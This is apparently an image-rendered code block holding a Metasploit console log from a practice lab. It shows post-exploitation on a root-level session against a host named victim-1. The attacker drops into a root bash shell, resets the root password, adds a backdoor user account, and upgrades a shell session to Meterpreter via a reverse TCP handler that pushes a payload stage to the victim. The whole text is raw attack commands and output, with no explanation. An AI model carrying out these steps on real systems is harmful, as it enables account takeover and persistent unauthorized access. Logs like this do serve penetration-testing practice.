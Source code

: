 ```
msf5 post(linux/gather/hashdump) > sessions 3
[*] Starting interaction with 3...

meterpreter > shell
Process 77 created.
Channel 5 created.
/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/tmp# passwd root
passwd root
Enter new UNIX password: password123
Retype new UNIX password: password123
passwd: password updated successfully
root@victim-1:/tmp# useradd -m alexis -s /bin/bash
useradd -m alexis -s /bin/bash
root@victim-1:/tmp# passwd alexis
passwd alexis
Enter new UNIX password: password321
Retype new UNIX password: password321
passwd: password updated successfully
root@victim-1:/tmp# ^C
Terminate channel 5? [y/N]  y
meterpreter > 
[*] 192.153.226.3 - Meterpreter session 3 closed.  Reason: Died
```

```
msf5 post(linux/gather/hashdump) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.153.226.2:35051 -> 192.153.226.3:445 (192.153.226.3)

msf5 post(linux/gather/hashdump) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.153.226.2:4433 
[*] Sending stage (985320 bytes) to 192.153.226.3
[*] Meterpreter session 4 opened (192.153.226.2:4433 -> 192.153.226.3:47506) at 2023-03-17 13:34:35 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 post(linux/gather/hashdump) > 
[*] Stopping exploit/multi/handler

msf5 post(linux/gather/hashdump) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                   Connection
  --  ----  ----                   -----------                                   ----------
  1         shell cmd/unix                                                       192.153.226.2:35051 -> 192.153.226.3:445 (192.153.226.3)
  4         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.153.226.3  192.153.226.2:4433 -> 192.153.226.3:47506 (192.153.226.3)
```
